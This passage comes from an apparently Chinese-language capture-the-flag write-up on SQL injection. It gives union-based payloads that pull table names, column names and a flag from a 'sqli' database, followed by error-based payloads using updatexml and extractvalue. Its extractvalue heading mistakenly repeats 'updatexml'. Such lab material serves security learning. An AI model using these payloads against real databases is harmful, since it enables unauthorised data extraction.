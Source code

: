 -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#

![image-20220609083357239](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083357239.png)

**7.获取表中的字段名**

-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#

![image-20220609083448877](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083448877.png)

**8.获取数据**

-1' union select 1,group_concat(flag) from sqli.flag#

![image-20220609083624560](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083624560.png)



### **报错注入

#### 方法一：updatexml

**利用updatexml来xpath报错。**

1 and (select updatexml(1, (concat (0x7e, (select database()))),1)) 

![image-20220609094015870](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094015870.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli'))),1))  

![image-20220609094048157](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094048157.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'))),1)) 

![image-20220609094108544](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094108544.png)

1 and (select updatexml(1, concat(0x7e, (select flag from flag)), 1))

![image-20220609094204065](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094204065.png)

#### 方法二：extractvalue

**利用updatexml来xpath报错。**

1 and (select extractvalue(1, concat(0x7e, (select database()))))

![image-20220609094434010](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094434010.png)

1 and (select extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema= 'sqli'))))

![image-20220609094525541](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094525541.png)
